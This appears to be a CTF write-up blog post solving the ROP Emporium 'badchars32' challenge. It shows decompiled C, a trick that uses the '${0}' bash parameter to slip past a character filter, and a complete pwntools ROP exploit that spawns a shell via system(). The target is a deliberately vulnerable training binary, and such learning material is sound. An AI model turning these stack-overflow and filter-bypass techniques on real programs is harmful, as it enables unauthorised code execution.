 ```yaml
---
layout: post
title: ROP Emporium - badchars32
---
```


### Instruction
An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Prev step to find data-section addr and gadgets
<https://bhrdn.github.io/ROP-Emporium-write432/>

### Check vuln function
```c
void pwnme(void)
{
  char *__s;
  size_t __n;
  undefined auStack44[40];
  
  __s = (char *)malloc(0x200);
  if (__s != (char *)0x0) {
    memset(__s, 0, 0x200);
    memset(auStack44, 0, 0x20);
    puts("badchars are: b i c / <space> f n s");
    printf("> ");
    __s = fgets(__s, 0x200, stdin);
    __n = nstrlen(__s, 0x200);
    checkBadchars(__s, __n);
    memcpy(auStack44, __s, __n);
    free(__s);
    return;
  }

  exit(1);
}
```

### XOR function to bypass badchars
```c
void usefulGadgets(void)
{
  byte in_CL;
  byte *unaff_EBX;
  
  *unaff_EBX = *unaff_EBX ^ in_CL;
  return;
}
```

### Why not bypass badchars with bash special params to spawn shell 🔥
- Badchars: [ 'b', 'i', 'c', '/', ' ', 'f', 'n', 's' ]

```c
#include <stdio.h>

int main()
{
    system("$0");
    return 0;
}
```
- Reference: <https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html>

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('badchars32')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '${0}'

DATA_START = 0x804a038

## gadgets to write datas
POP_ESI_POP_EDI = 0x08048899
MOV_EDI_ESI = 0x08048893

rop = ROP(exe)
rop.raw(POP_ESI_POP_EDI)
rop.raw(command)
rop.raw(DATA_START)
rop.raw(MOV_EDI_ESI)

rop.system(DATA_START)

io.sendline(payload + rop.__str__())
io.interactive()
```